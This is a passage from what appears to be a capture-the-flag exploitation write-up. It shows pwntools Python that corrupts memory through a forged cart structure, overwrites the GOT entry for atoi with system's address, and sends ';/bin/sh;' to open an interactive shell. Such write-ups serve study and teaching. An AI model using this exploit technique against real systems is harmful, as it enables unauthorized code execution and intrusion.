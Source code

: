 The following diagram illustrates our attack:

{{ svg(path="5f478a5e5f6cee02e28f0456.svg") }}

The following overwrites the addresses:
```python
delete(b'27' + create_cart_struct(0x8048f88, 0, DELETE_EBP - 0xc, elf.got['atoi'] + 0x22))
```

## Obtaining a shell

We can overwrite the GOT entry for atoi with the address of system. Now all we have to do is pass `/bin/sh` in the call 
to atoi. Since our input buffer in `handle` overwrites the GOT entry, our input starts with the address of system and 
includes `;/bin/sh;`:

```python
r.sendafter(b'>', p32(libc.symbols['system']) + b';/bin/sh;')

r.interactive()
```

![](5f478a755f6cee02e28f0458.png)


[show-line-numbers]: false